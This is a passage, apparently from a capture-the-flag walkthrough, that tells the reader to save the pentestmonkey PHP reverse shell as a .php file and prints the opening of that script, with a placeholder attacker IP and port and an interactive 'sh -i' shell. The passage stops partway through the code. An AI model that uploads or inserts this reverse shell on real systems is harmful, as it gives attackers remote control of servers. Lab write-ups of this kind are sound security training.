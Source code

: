 ![shell](./Screenshots/permxrevshell4.png)

Copy the payload and save it as `.php` file. It should look like this:

```
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '{your tun0 ip}';
$port = {port of your choice};
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
```